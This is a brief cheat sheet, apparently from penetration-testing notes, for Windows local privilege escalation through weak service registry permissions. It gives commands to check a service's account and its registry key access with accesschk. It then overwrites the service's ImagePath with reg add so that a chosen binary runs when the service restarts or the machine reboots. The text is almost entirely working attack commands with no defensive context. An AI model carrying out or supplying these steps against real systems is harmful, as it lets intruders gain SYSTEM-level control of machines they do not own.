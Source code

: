 Check autority of service:
```
sc.exe qc SERVICENAME
```

Check access:
```
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\SERVICENAME
```

If there's `REG_KEY_ALL: NT AUTHORITY\INTERACTIVE`, it's vulnerable
Exploit:
```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d PATH /f
```

Restart the service:
```
net stop SERVICE
net start SERVICE
```
Note: if `net start`/`net stop` cannot be called, reboot the system.